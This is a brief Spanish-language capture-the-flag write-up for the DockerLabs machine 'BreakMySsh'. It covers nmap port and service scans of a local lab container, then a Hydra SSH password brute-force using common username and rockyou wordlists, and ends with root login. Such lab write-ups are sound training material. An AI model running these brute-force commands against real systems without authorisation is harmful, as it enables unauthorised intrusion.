

# BreakMySsh

Dificultad: Muy Facil
Tecnicas: Hydra
Pagina: Docker labs
Estado: Listo

# 

```bash
Lo primero que hacemos es ver q puertos están abiertos 

nmap -p- —open —min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allport
```



```bash
Luego tiramos unos script basicos y buscamos las versiones de los puertos abiertos 

nmap -p22 -sCV -oN targeted 172.17.0.2
```


```bash
Implementamos hydra para ver si encontramos la contraseña 

hydra -L /usr/share/SecLists/Usernames/top-usernames-shortlist.txt 
-P /usr/share/wordlist/rockyou.txt ssh://172.17.0.2
```


```bash
Ingresamos mediante ssh con el usuario y contraseña correspondiente. Y ya somos root
```

